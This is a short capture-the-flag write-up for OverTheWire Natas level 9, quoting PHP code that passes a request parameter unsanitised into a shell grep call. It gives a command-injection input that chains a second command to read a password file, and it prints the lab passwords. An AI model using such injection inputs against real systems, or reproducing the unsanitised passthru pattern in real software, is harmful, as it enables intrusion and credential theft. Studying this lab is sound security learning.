

# Level 9

## Challenge Details 

- **CTF:** OverTheWire
- **Category:** Natas

## Provided Materials

- [http://natas9.natas.labs.overthewire.org](http://natas9.natas.labs.overthewire.org)
- username: `natas9`
- password: `Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd`

## Solution



Let's see the sourcecode:

```php
...
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
...
```

Our input will be pasted here `grep -i $key dictionary.txt`, so we can enter `; cat /etc/natas_webpass/natas10;`, so the final command on the server will be `grep -i; cat /etc/natas_webpass/natas10;dictionary.txt` *(`;` is command separator in bash)*.

## Password

`natas10`:`D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE `

*Created by [bu19akov](https://github.com/bu19akov)*